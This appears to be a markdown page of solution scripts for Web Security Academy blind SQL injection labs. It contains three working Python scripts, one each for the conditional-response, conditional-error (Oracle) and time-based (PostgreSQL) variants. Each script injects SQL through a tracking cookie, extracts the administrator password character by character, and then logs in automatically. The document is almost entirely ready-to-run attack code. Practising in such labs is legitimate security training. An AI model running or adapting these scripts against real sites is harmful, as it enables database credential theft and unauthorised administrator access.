



# 1 Blind SQLi with conditional responses

```python
import requests
import string
from bs4 import BeautifulSoup

URL = "https://0a3b006a04f248e1c0524fc900560036.web-security-academy.net/"
loginURL = "https://0a3b006a04f248e1c0524fc900560036.web-security-academy.net/login"
cookies = {'TrackingId':'', 'session':'WYhhdqScbakAXj77YG2g5vVB1VMvDeD6'}
TrackingId = "fmcJUaoz1cMlYCp3"
# proxies = {"https":"http://127.0.0.1:8080"}

all_letter_num = string.ascii_letters + string.digits
quit = False
index = 0
password = ""

print("Using payload: ' and (select substring(password,?,1) from users where username='administrator')='?")
print("[+] Dumping 'administrator' password: ", end="")
# print("Dumping administrator username")
while(quit == False):
	found = False
	index = index + 1
	# print("Trying index pos: {}".format(index))
	for char in all_letter_num:

		#' and (select(substring(password,1,1) from users where username='administrator')='a
		payload = "' and (select substring(password,{},1) from users where username='administrator')='{}".format(index,char)
		cookies['TrackingId'] = TrackingId+payload

		# res = requests.get(URL, cookies=cookies, proxies=proxies, verify=False)

		res = requests.get(URL, cookies=cookies)
		if "Welcome" in res.text:
			password = password + char
			print(char, end="",flush=True)
			found = True
			break

		if (found == False) and "9" in char:
			quit = True
			print("")
			print("[-] End")


#---login with found credentials--------------------------------------------------
if len(password) > 0:
	print("\nAttempt to login with credentials...")
	print("finding csrf token... ")
	html_content = requests.get(url = loginURL, cookies=cookies).text
	soup = BeautifulSoup(html_content, "html.parser")
	csrf_token = soup.find('input', {'name':'csrf'})['value']
	print(" [+] csrf token found! : {}".format(csrf_token))
	print("\nLoggin in... ")

	# data body
	# csrf=7XVCXSjAhQbU9Osbin89zpr0tCQUQVXn&username=test&password=pw
	data = "csrf={}&username={}&password={}".format(csrf_token,"administrator",password)

	res = requests.post(url = loginURL, data = data, cookies=cookies)

	#if login is successful you will see 'Log out' 
	if "Log out" in res.text:
		print(" [+] Successfully logged in!")

```



## 2 Blind SQLi with conditional errors (Oracle)

```python
import requests
import string
from bs4 import BeautifulSoup

URL = "https://0a3900dc04c08f1cc04d04b100bf00c7.web-security-academy.net/"
loginURL = "https://0a3900dc04c08f1cc04d04b100bf00c7.web-security-academy.net/login"
cookies = {'TrackingId':'', 'session':'OrKEHkQzuoo7koGAxSSErd62ddbN9bB5'}
TrackingId = "OMw1xjatqzdeHfyr"
# proxies = {"https":"http://127.0.0.1:8080"}

all_letter_num = string.ascii_letters + string.digits
quit = False
index = 0
password = ""

print("Using payload: TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='x' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'")
print("[+] Dumping 'administrator' password: ", end="")
# print("Dumping administrator username")
while(quit == False):
	found = False
	index = index + 1
	# print("Trying index pos: {}".format(index))
	for char in all_letter_num:

		#' and (select(substring(password,1,1) from users where username='administrator')='a
		payload = "'||(SELECT CASE WHEN SUBSTR(password,{},1)='{}' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'".format(index,char)
		cookies['TrackingId'] = TrackingId+payload

		# res = requests.get(URL, cookies=cookies, proxies=proxies, verify=False)
		res = requests.get(URL, cookies=cookies)

		# if "Welcome" in res.text:
		if res.status_code == 500:
			password = password + char
			print(char, end="",flush=True)
			found = True
			break

		if (found == False) and "9" in char:
			quit = True
			print("")
			print("[-] End")


#---login with found credentials--------------------------------------------------
if len(password) > 0:
	print("\nAttempt to login with credentials...")
	print("finding csrf token... ")
	html_content = requests.get(url = loginURL, cookies=cookies).text
	soup = BeautifulSoup(html_content, "html.parser")
	csrf_token = soup.find('input', {'name':'csrf'})['value']
	print(" [+] csrf token found! : {}".format(csrf_token))
	print("\nLoggin in... ")

	# data body
	# csrf=7XVCXSjAhQbU9Osbin89zpr0tCQUQVXn&username=test&password=pw
	data = "csrf={}&username={}&password={}".format(csrf_token,"administrator",password)
	res = requests.post(url = loginURL, data = data, cookies=cookies)

	#if login is successful you will see 'Log out' 
	if "Log out" in res.text:
		print(" [+] Successfully logged in!")

```



## 4 Blind SQLi with time based (postgresql)

```python
import requests
import string
from bs4 import BeautifulSoup

URL = "https://0a2d00c70328f8f6c01c056800b0002e.web-security-academy.net/"
loginURL = "https://0a2d00c70328f8f6c01c056800b0002e.web-security-academy.net/login"
cookies = {'TrackingId':'', 'session':'CDmGA1NquQvEOJ3bWIvFL4G36pL4UNA4'}
TrackingId = "js3vND1kdL6XLft6"
# proxies = {"https":"http://127.0.0.1:8080"}

all_letter_num = string.ascii_letters + string.digits
quit = False
index = 0
password = ""

# payload = requests.utils.quote("';SELECT CASE WHEN (1=1) THEN pg_sleep(5) ELSE pg_sleep(0) END--'")
# print(payload)
# cookies['TrackingId'] = TrackingId+payload
# res = requests.get(URL, cookies=cookies)
# print(res.elapsed.total_seconds())

print("Using payload: TrackingId=x';SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,?,1)='?') THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users--")
print("[+] Dumping 'administrator' password: ", end="")
# print("Dumping administrator username")
while(quit == False):
	found = False
	index = index + 1
	# print("Trying index pos: {}".format(index))
	for char in all_letter_num:
		payload = requests.utils.quote("';SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,{},1)='{}') THEN pg_sleep(3) ELSE pg_sleep(0) END FROM users--".format(index,char))
		cookies['TrackingId'] = TrackingId+payload

		# res = requests.get(URL, cookies=cookies, proxies=proxies, verify=False)
		res = requests.get(URL, cookies=cookies)

		# if "Welcome" in res.text:
		# if res.status_code == 500:
		if res.elapsed.total_seconds() > 2:
			password = password + char
			print(char, end="",flush=True)
			found = True
			break

		if (found == False) and "9" in char:
			quit = True
			print("")
			print("[-] End")


#---login with found credentials--------------------------------------------------
if len(password) > 0:
	print("\nAttempt to login with credentials...")
	print("finding csrf token... ")
	html_content = requests.get(url = loginURL, cookies=cookies).text
	soup = BeautifulSoup(html_content, "html.parser")
	csrf_token = soup.find('input', {'name':'csrf'})['value']
	print(" [+] csrf token found! : {}".format(csrf_token))
	print("\nLoggin in... ")

	# data body
	# csrf=7XVCXSjAhQbU9Osbin89zpr0tCQUQVXn&username=test&password=pw
	data = "csrf={}&username={}&password={}".format(csrf_token,"administrator",password)
	res = requests.post(url = loginURL, data = data, cookies=cookies)

	#if login is successful you will see 'Log out' 
	if "Log out" in res.text:
		print(" [+] Successfully logged in!")

```

